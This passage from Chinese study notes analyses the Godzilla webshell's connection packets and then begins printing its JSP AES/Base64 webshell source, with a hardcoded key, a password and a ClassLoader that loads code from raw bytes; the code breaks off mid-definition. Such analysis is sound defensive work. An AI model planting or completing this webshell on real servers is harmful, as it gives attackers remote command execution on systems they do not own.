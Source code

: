 到这里连接哥斯拉的发起三个包就没了

第一步向服务器发送payload并将其存入session，第二步测试连接，第三步获得靶机基础信息

剩下一个是命令执行`whoami`的包

![image.png](image%2059.png)

![image.png](image%2060.png)

## JSP

### JAVA_AES_BASE64

> https://blog.csdn.net/zeros__/article/details/111613134 | https://xz.aliyun.com/news/10004?time__1311=eqUxRDgD9A0QDt3eGNDQu4GIrUqf2u2xTD&u_atoken=f713fe046d7e9eb5c706d741665a23f7&u_asig=1a0c384917414445566481656e003f
> 

```php
<%! 
    String xc = "3c6e0b8a9c15224a"; 
    String pass = "pass"; 
    String md5 = md5(pass + xc); 

    class X extends ClassLoader {
        public X(ClassLoader z) {
            super(z);
        }

        public Class Q(byte[] cb) {
            return super.defineClass(cb, 0, cb.length);
        }
    }

    public byte[] x(byte[] s, boolean m) { 
```